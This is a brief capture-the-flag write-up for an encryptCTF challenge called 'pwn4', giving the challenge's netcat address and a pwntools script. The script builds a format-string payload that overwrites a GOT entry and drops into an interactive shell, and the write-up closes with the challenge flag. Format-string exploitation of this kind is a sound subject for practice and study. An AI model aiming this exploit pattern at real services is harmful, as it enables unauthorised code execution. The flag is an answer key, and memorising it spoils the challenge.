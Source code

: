 # **pwn4**

#### tag : pwn

-----------------------------------------------

#### Description

>GOT is a amazing series!
>
>nc 104.154.106.182 5678
>
>author: codacker

-----------------------------------------------

#### Solution

```python
from pwn import *

context.log_level = 'debug'
r = remote('104.154.106.182', 5678)

p = fmtstr_payload(7, {0x80498fc: 0x0804853d}, numbwritten=0, write_size='byte')

r.recvuntil('\n')
r.sendline(p)
r.recvuntil('\n')
r.interactive()
```
**encryptCTF{Y0u_4R3_7h3_7ru3_King_0f_53v3n_KingD0ms}**
